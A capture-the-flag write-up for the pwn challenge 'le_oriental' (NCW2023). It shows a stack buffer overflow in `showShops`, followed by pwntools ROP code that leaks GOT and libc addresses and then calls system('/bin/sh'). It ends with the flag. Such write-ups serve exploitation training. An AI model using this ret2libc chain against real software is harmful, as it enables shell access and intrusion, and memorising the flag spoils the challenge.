

# le_oriental

## Information
**Category:** |
--- | 
PWN|

**Description:** 
~~~
description
~~~
## Solution



Using decompiler, Here we can use bof vuln in the function in `showShops` in the `FOMO` option. Because there is no canary protection we can directly overflow the v1 buffer


Here we can see the `underDevelopment` function which reads the flag file but this function requires several args like the following in order to be able to read the contents of the file


Also, Here we can see the `aboveDevelopment` function, but I don't know what to do with this function, but in the function there is `seccomp_setup`


Because here I see that it can be solved using the rop gadget, here I make an exploit by:
- leak got, leak libc
- spawn shells
  
By not calling `aboveDevelopment` we are not also calling `seccomp`, therefore we can call `system`. And also we don't need the `underDevelopment` function because we can read directly from the shell

### ROP
```python
pop_rdi = ROP.find_gadget(["pop rdi", "ret"])[0]
pop_rsi = ROP.find_gadget(["pop rsi", "ret"])[0]
pop_rdx = ROP.find_gadget(["pop rdx", "ret"])[0]
pop_rcx = ROP.find_gadget(["pop rcx", "ret"])[0]
ret = ROP.find_gadget(["ret"])[0]
```
---
### Leak GOT, LIBC and Return to main
```python
offset = 328
p = b"A" * offset
p += p64(pop_rdi)
p += p64(exe.got["alarm"])
p += p64(exe.plt["puts"])
p += p64(ret)
p += p64(pop_rdi)
p += p64(exe.got["__isoc99_scanf"])
p += p64(exe.plt["puts"])
p += p64(ret)
p += p64(exe.sym["main"])
```
After we get the leak, we can use the libc database and get [libc6-amd64_2.36-9+deb12u1_i386.so](libc6-amd64_2.36-9+deb12u1_i386.so) then use it to get the libc base address


---
### Spawn Shell
after returning to main function we can use the same vuln in `showShops` with the **FOMO** option and call `system("bin/sh")` using `libc`

```python
p = b"1"
io.sendlineafter(b">> ", p)
p = b"FOMO"
io.sendlineafter(b">> ", p)

BINSH = next(libc.search(b"/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = libc.sym["exit"]

p = b"A" * offset
p += p64(pop_rdi) + p64(BINSH) + p64(ret) + p64(SYSTEM) + p64(EXIT)
io.sendlineafter(b"iyakah?? ", p)
```

> NCW2023{1_th0ugh7_4_s1mpl3_R0P_w0ulD_b3_3n0ugh_bu7_4dd1n9_S3CC0MP_15_FuN_h3h3h3}